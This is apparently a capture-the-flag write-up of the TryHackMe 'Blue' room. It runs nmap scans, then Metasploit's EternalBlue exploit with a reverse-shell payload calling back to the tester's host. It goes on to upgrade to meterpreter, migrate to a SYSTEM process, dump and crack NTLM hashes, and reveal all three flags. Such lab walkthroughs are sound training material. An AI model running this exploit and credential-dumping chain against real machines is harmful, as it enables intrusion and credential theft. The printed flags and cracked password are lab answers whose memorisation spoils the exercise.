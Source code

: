 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> ![](.gitbook/assets/ezgif-2-016707f505.jpg)

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Gain Access

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Escalate

- Payload use was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

- My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g. ` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for ***no password***.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

- In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>
<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`

![](.gitbook/assets/image-20230316143237356.png)

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>
<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`

![](.gitbook/assets/image-20230316143502259.png)

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>
<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`

![](.gitbook/assets/image-20230316143807868.png)

</details>

------

